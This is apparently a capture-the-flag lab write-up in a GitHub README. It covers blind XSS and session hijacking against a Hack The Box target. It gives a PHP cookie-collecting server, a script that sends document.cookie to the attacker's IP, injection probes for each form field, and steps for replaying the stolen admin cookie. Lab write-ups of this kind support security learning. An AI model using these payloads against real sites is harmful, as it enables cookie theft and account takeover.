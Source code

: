 # HTB XSS and Session Hijacking Writeup

This repository documents identifying a vulnerable input field via XSS and performing session hijacking to steal the admin's cookie and retrieve the flag from `login.php`.

- **Attacker IP:** `10.10.14.179`
- **Target IP:** `10.129.31.89`
- **Date:** April 11, 2025

## Steps

### 1. Set Up Attacker Server
```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
```
**index.php** 
```bash
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
**script.js**
```bash
new Image().src='http://10.10.14.179/index.php?c='+document.cookie;
```
**cookies.txt**
```bash
sudo touch cookies.txt
sudo chmod 666 cookies.txt
```
**Run server**
```bash
sudo php -S 0.0.0.0:80
```
### 2. Identify Vulnerable Field
**Form**: ` http://10.129.31.89/hijacking/index.php`

**Fields Tested:**

fullname: ` "><script src=http://10.10.14.179/fullname></script> `

username: ` "><script src=http://10.10.14.179/username></script> `

password: ` "><script src=http://10.10.14.179/password></script> `

email: ` "><script src=http://10.10.14.179/email></script> `

imgurl: ` "><script src=http://10.10.14.179/imgurl></script> `

**Process:**

Injected each payload into one field at a time, others set to **test**.

Checked server logs for requests (e.g., GET /fullname).

Vulnerable field identified when a request appeared.

### 3. Exploit with XSS
**Payload**: 

```bash ">
<script src=http://10.10.14.179/script.js></script>
```

Inject this script into the vulnerable field

**Cookie Captured**:
```bash
cat cookies.txt
```

### 4. Use Cookie in login.php
URL: ` http://10.129.31.89/hijacking/login.php `

Added cookie via DevTools > Storage > Cookies.

Refreshed to get the flag.



